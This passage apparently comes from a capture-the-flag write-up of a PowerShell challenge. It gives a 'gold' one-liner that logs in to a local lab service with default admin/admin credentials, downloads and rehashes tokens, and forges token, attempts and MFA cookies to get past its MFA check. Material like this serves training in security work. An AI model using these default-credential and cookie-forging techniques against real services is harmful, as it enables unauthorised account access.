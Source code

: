 ```powershell
    # Output the content of the final response (COMMENTED OUT WHEN NOT DEBUGGING SCRIPT)
    # Write-Output $finalResponse.Content > "$md5Hash.txt"
    #
	# $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | ForEach-Object { 
	#	Write-Output "Name: $($_.Name), Value: $($_.Value), Domain: $($_.Domain), Path: $($_.Path)" >> "$md5Hash.txt"
	# }

	# FINAL REQUIRED STEP -- IF YOU DO NOT DO THIS, YOU WILL NOT GET GOLD:
	$cookieValue = $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | Where-Object { $_.Name -eq "attempts" } | Select-Object -First 1 -ExpandProperty Value 
	# Write-Output "Current Token $cookieValue"
}
```

#### Complete Gold Solution (One Liner)
```powershell
$User = "admin"; $Pass = ConvertTo-SecureString "admin" -AsPlainText -Force; $Creds = New-Object System.Management.Automation.PSCredential ($User, $Pass); $r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $r.Content | Set-Content hashes.txt; Get-Content hashes.txt | Where { $_ -notmatch "^#" } | Set-Content hashes_only.txt; Remove-Item hashes.txt; Rename-Item hashes_only.txt hashes.txt; $inputFile = "hashes.txt"; $outputFile = "hashed_output.txt"; $results = @(); $row = 0; Get-Content -Path $inputFile | ForEach-Object { if ($row -eq 0) { $row++; return }; $columns = $_ -split ","; $md5Hash = $columns[0].Trim(); $tempFilePath = "md5hash.txt"; $md5Hash | Out-File -FilePath $tempFilePath -Encoding UTF8 -Force; $sha256HashBytes = Get-FileHash -Path $tempFilePath -Algorithm SHA256; $sha256Hash = $sha256HashBytes.Hash.ToLower(); $results += "$md5Hash,$sha256Hash" }; $results | Out-File -FilePath $outputFile -Encoding UTF8; Write-Output "Hashes processed and saved to $outputFile"; Get-Content $outputFile | Where { $_ -notmatch "^," } | Set-Content endpoint_hashes.txt; $inputFile = "endpoint_hashes.txt"; $cookieValue = ""; Get-Content -Path $inputFile | ForEach-Object { $columns = $_ -split ","; $md5Hash = $columns[0].Trim(); $sha256Hash = $columns[1].Trim(); $WebSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession; $WebSession.Cookies.Add((New-Object System.Net.Cookie("token", $md5Hash, "/", "127.0.0.1"))); $WebSession.Cookies.Add((New-Object System.Net.Cookie("attempts", $cookieValue, "/", "127.0.0.1"))); $response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1"))); $finalResponse = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $cookieValue = $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | Where-Object { $_.Name -eq "attempts" } | Select-Object -First 1 -ExpandProperty Value }
```

![](../../../Assets/images/act2/powershell/act-2-powershell-question-gold-one-liner.png)
![](../../../Assets/images/act2/powershell/act-2-powershell-achievement-gold.png)

